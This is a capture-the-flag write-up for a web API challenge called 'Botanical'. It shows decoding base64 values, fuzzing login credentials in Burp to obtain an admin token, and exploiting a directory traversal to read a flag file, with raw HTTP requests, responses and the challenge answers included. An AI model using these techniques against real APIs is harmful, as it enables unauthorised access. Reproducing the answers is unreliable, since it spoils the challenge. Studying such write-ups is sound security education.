





# CyberQuest 2025 - Botanical

## Description

In the middle of the town, there is a botanical garden. These plants has extreme habitat, sometimes the temperature could be very unique. One of the worker has permission for to visit the inner garden, where there is a diary about who planted or removed a plant in the past.

Challenge difficulity: `medium`

`cq25-challenge0[1-9]-c.cq.honeylab:36700/apidocs/#`

## Metadata

- Filename: -
- Tags: `swagger`, `api`, `brute-force`, `directory traversal`, `base64`

## Solution

### Reconnaissance

We are presented with a `Botanical API` ([apispec_1.json](files/apispec_1.json)) (Swagger API description).



After examining the plant and greenhouse related API endpoints we can see that some of the endpoint require authentication:
- Reading the greenhouse log files
- `/flag` endpoint, which also requires 2 keys

### Climates

The climates are double base64 encoded.

The climate of plant `6384` is special: `YTJWNWV6Rm1YM2t3ZFY5amRYUmZNRzR6WDNSeU16Tjk`

```json
{"climate":"YTJWNWV6Rm1YM2t3ZFY5amRYUmZNRzR6WDNSeU16Tjk=","soil_ph":4.3,"typical_regions":["West Africa"]}
```
```json
{"bloom_season":"Winter","care":{"fertilizer_schedule":"Every 2 weeks during growing season","soil_type":"Sandy","sunlight_hours_per_day":12,"water_frequency_days":12},"common_name":"Hibiscus","description":"A plant used for calming teas and remedies.","family":"Poaceae","habitat":{"climate":"YTJWNWV6Rm1YM2t3ZFY5amRYUmZNRzR6WDNSeU16Tjk=","soil_ph":4.3,"typical_regions":["West Africa"]},"height_cm":1919,"id":6384,"scientific_name":"Ocimum basilicum","toxicity":"Mildly toxic"}
```



The first key is: `key{1f_y0u_cut_0n3_tr33}`

### Authentication

I paid for the hint, which suggested that one of the warehouse workers are called Suzy or similar.

I tried fuzzin the username and password fields with same name from a username list in Burp.

For `{"password": "susan","username": "susan"}` the server response was: `{"message":"Password Reminder for susan: the user naturelover"}`.

```
POST /auth HTTP/1.1
Host: 10.10.100.133:36700
Content-Length: 48
Accept-Language: en-US,en;q=0.9
accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Origin: http://10.10.100.133:36700
Referer: http://10.10.100.133:36700/apidocs/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "password": "susan",
  "username": "susan"
}

HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Mon, 29 Sep 2025 21:10:21 GMT
Content-Type: application/json
Content-Length: 64
Connection: close

{"message":"Password Reminder for susan: the user naturelover"}
```

Trying the suggested password reminder (`naturelover`) gives us the admin token (`admin123`):


```json
{
  "username": "susan",
  "password": "naturelover"
}
```

```json
{"message":"Login successful","x_admin_token":"admin123"}
```



### Directory traversal

Using the `/greenhouse/logs/list` and `/greenhouse/logs` endpoints, we can query the names of the log files and their content.

However, directory traversal is possible (`/greenhouse/logs?file=../flag.txt`)

```
GET /greenhouse/logs?file=../flag.txt HTTP/1.1
Host: 10.10.100.133:36700
X-Admin-Token: admin123
Accept-Language: en-US,en;q=0.9
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Referer: http://10.10.100.133:36700/apidocs/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive


HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Mon, 29 Sep 2025 20:55:18 GMT
Content-Type: application/json
Content-Length: 51
Connection: close

{"log_entries":["key{y0u_ar3_in_th3_gr33nh0us3}"]}
```



The second key is: `key{y0u_ar3_in_th3_gr33nh0us3}`

### The flag

Getting the flag requires the admin token (`admin123`) and the two keys:

```
POST /flag HTTP/1.1
Host: 10.10.100.133:36700
Content-Length: 80
X-Admin-Token: admin123
Accept-Language: en-US,en;q=0.9
accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Origin: http://10.10.100.133:36700
Referer: http://10.10.100.133:36700/apidocs/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "key1": "key{1f_y0u_cut_0n3_tr33}","key2":"key{y0u_ar3_in_th3_gr33nh0us3}"
}

HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.13
Date: Mon, 29 Sep 2025 20:56:08 GMT
Content-Type: application/json
Content-Length: 52
Connection: close

{"flag":"CQ25{pl4nt_tw0_m0re_tr33_instead_0f_0ne}"}
```



The flag is `CQ25{pl4nt_tw0_m0re_tr33_instead_0f_0ne}`